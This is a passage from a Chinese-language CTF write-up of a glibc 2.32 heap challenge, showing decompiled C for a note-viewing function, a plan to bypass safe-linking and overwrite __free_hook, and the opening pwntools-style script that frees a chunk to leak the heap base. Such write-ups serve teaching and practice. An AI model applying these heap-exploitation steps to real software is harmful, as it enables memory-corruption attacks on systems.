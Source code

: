```bash
unsigned __int64 show_note()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v1);
  if ( v1 <= 0xF )
  {
    if ( notes[v1] )
      puts((const char *)notes[v1]);
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

题目环境 glibc2.32，然后漏洞很明显，只不过更改环境比较麻烦，然后就是比以前多了 safe-linking 机制

### 思路

这个题思路很简单，就是泄露完 heap 后绕过后面 safe-linking，然后直接打 free\_hook

### 详细流程

因为我用的 ubuntu20，所以这里第一步就是按照上面演示的方法去更换 libc，然后就可以开始做题了

```bash
for i in range(7):
    add(i,0x80)

add(7,0x80)
add(8,0x80)

delete(0)
show(0)

heap_addr=u64(p.recv(5)[-6:].ljust(8,'\x00'))<<12
leak('heap_addr ',heap_addr)
```

泄露个堆基地址
